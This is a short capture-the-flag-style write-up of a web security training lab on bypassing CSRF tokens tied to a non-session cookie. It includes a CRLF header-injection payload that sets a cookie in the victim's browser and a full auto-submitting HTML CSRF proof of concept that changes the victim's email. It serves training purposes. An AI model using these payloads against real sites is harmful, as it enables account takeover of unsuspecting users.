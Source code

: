 # Lab: CSRF where token is tied to non-session cookie

Login with the creds provided and turn on the proxy. Initiate an email address change and intercept the request. Send it to the repeater and observe that changing the csrfKey results in the CSRF token being rejected, while changing the session cookie results in logout.

Login with the other provided creds and initiate an email address change. Intercept the request and replace the csrfKey with the value from the other user. Observe that the request is successful.

Perform a search and send the resulting request to the repeater. Notice that the search term is reflected in the SetCookie header. This can be used to inject cookies into the victim's browser since it implements no CSRF protection: `/?search=something%0d%0aSet-Cookie:%20csrfKey=<value>`

Use the following to trigger the exploit when a victim clicks on the link (the <img> tag contains the cookie setting functionality and is used instead of a script block):

```<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ace91f751e85a8eec0141a6900db00af.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asdf&#64;asdf&#46;com" />
      <input type="hidden" name="csrf" value="g3ePPc9vvaOYqMnYwQ0URmmuwwzHN67o" />
    </form>
    <img src="https://ace91f751e85a8eec0141a6900db00af.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YfAgkgMbjryYgl4WEMKf1qspC6Q93wZS" onerror="document.forms[0].submit()">
  </body>
</html>```